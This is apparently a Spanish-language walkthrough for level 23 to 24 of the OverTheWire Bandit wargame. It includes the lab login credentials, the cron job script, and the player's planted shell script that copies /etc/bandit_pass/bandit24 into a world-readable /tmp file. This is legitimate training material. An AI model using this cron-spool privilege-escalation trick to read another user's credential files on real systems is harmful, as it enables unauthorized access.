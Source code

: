 # Level 23 -> 24
---
## Objectivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

---
## Datos de acceso
- user -> **bandit23**
- Passwor -> QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
- host ->  **bandit.labs.overthewire.org**
- port -> **2220**

---
## Solución

``` shell
bandit23@bandit:~$ cd /etc/cron.d
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit17_root  cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  cronjob_bandit25_root
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh 
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:/etc/cron.d$ mkdir /tmp/password24tmp
bandit23@bandit:/etc/cron.d$ nano /tmp/password24tmp/password
Unable to create directory /home/bandit23/.nano: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

bandit23@bandit:/etc/cron.d$ chmod 777 -R /tmp/password24tmp

bandit23@bandit:/etc/cron.d$ cd /tmp/password24tmp
bandit23@bandit:/tmp/password24tmp$ ls
password
bandit23@bandit:/tmp/password24tmp$ nano my_script.sh
Unable to create directory /home/bandit23/.nano: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

bandit23@bandit:/tmp/password24tmp$ ls
my_script.sh  password
bandit23@bandit:/tmp/password24tmp$ cat my_script.sh 
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/password24tmp/password

bandit23@bandit:/tmp/password24tmp$ chmod 777 my_script.sh 
bandit23@bandit:/tmp/password24tmp$ cp my_script.sh /var/spool/bandit24/
bandit23@bandit:/tmp/password24tmp$ cat password 
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/password24tmp$ 



``` 



---
## Notas adicionales

Se crea un script que aprovecha los permisos del usuario bandit24 para obtener su contraseña.

 ### linux
 **#!/bin**/**bash**: Esta linea indica donde se encuentra el interprete de comandos en nuestro sistema.



---
## Referencias
http://trajano.us.es/~fjfj/shell/shellscript.htm#_Toc444081192
